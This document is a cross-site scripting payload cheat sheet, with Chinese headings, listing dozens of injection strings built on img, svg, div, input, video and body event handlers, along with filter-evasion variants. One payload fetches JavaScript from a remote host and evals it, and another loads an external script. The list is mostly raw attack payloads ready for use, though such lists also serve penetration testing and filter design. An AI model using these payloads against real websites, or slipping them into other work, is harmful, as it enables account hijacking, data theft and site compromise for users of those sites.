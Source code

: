 ```javascript
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 当手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从触摸屏上移开时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕上拖动时
```
 #### 远程Js
  	<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
	<script src=14.rs>
 #### 隐藏在输入框中的 XSS
  	<input type="hidden" accesskey="X" onclick="alert(1)">
	使用CTRL+SHIFT+X触发
 #### 带有 JavaScript 的 XSS
  	javascript:prompt(1)
